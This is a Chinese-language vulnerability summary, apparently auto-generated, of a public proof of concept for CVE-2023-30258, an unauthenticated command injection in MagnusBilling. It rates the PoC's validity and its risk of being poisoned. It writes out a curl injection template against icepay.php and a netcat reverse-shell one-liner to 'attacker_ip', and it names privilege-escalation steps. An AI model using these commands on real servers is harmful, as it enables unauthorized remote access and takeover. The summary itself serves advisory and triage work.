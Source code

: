 ## CVE-2023-30258-MagnusBilling-命令注入

**漏洞编号:** CVE-2023-30258

**漏洞类型:** 命令注入

**影响应用:** MagnusBilling

**危害等级:** 高危，允许未授权远程命令执行

**影响版本:** 6.x, 7.x

**利用条件:** 需要网络访问目标MagnusBilling服务器

**POC 可用性:** 是

**投毒风险:** 10%

## 详情

CVE-2023-30258是MagnusBilling 6.x和7.x版本中的一个命令注入漏洞。攻击者可以通过发送特制的HTTP请求，利用`icepay.php`文件中的`democ`参数进行命令注入，无需身份验证即可在服务器上执行任意系统命令。\n\n**有效性分析：**\n根据漏洞库信息、搜索引擎结果以及提供的漏洞利用代码，该漏洞的POC代码有效。多个来源均确认了该漏洞的存在和可利用性。\n\n**投毒风险分析：**\n提供的POC代码主要包含以下几个部分：\n1.  **漏洞验证：** 通过`sleep`命令测试是否存在命令注入，如果响应时间超过3秒，则认为存在漏洞。\n2.  **反弹shell：** 使用`rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|sh -i 2>&1|nc attacker_ip 9001 >/tmp/f;`命令反弹shell到攻击者的机器。\n3.  **权限提升：** 尝试三种不同的权限提升方法（NATSec, SUID Bash, Jaxafed）。\n\n虽然POC代码自动化程度很高，包含多种权限提升方法，但是其中也可能存在风险：\n*   **依赖外部资源：** 反弹shell依赖攻击者控制的IP地址和端口。如果攻击者的服务器被入侵或者恶意利用，可能会影响目标系统。\n*   **权限提升的副作用：** SUID Bash方法可能引入安全风险，因为创建一个具有SUID权限的bash可能会被滥用。\n*   **Fail2ban滥用：** 通过fail2ban修改iptables存在一定的风险，例如可能导致服务异常。\n\n综合来看，该脚本的主要目的是为了自动化利用漏洞，但存在一些可能被滥用或者产生副作用的风险，投毒风险的可能性较低，约为10%。\n\n**利用方式：**\n1.  **确定目标MagnusBilling版本为6.x或7.x。**\n2.  **发送包含命令注入的HTTP GET请求到`/mbilling/lib/icepay/icepay.php`，利用`democ`参数执行任意命令。** 示例:`curl -s "http://target/mbilling/lib/icepay/icepay.php" --get --data-urlencode 'democ=;COMMAND;'`。\n3.  **通常利用反弹shell获取目标服务器的控制权，然后进行后续的攻击行为，例如数据窃取、权限提升等。**\n4.  **该PoC脚本尝试使用Fail2ban来执行命令，从而提权。**

**项目地址:** [delldevmann/CVE-2023-30258](https://github.com/delldevmann/CVE-2023-30258)

**漏洞详情:** [CVE-2023-30258](https://nvd.nist.gov/vuln/detail/CVE-2023-30258)